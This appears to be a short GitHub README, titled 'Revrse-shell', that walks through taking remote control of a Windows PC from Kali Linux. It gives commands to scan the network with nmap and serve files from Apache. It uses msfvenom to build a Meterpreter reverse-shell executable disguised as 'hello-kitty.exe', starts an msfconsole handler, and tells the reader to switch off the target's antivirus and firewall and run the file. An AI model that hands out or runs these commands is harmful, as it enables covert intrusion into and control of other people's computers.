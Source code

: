 # Revrse-shell
Control any PC using linux
Run every command step by step
# check IP in Linux
hostname -I

#Scan the network
nmap -F -Pn 192.168.10.171

#status of apache server
sudo systemctl status apache2
#There you have to provide your kali password

#start the apache server
sudo systemctl start apache2 

#Enable the apache server
sudo systemctl enable apache2

#Now check the apache server again 
sudo systemctl status apache2

#Go to the html file. if you use kali your directory path will be the same
cd /var/www/html

#Create a html file 
sudo nano test.html  

#Create a directory named exploit
sudo mkdir exploit 

#Go to the root 
sudo su

#create the malware
msfvenom -p windows/x64/meterpreter/reverse_tcp \
LHOST=192.168.10.191 \(kali IP)
LPORT=5000 \(if it is not working then use 5001)
--platform Windows \
> -a x64 \
> -f exe \
> -o hello-kitty.exe   

#Run the malware
msfconsole -q -x "use exploit/multi/handler; \
set payload windows/x64/meterpreter/reverse_tcp; \
set lhost 0.0.0.0; \
set lport 5000; \
exploit;"

#go to target machine
#search like this [ kali_ip/exploit ]
#make sure your machines Virus and thread protection settings all security is disable
#make sure all firewall and network protection is disable
#download the hello-kitty.exe file and execute

#Go to linux file you will show meterpreter
#Check system info
sysinfo

#Now you will see you have the access of Windows


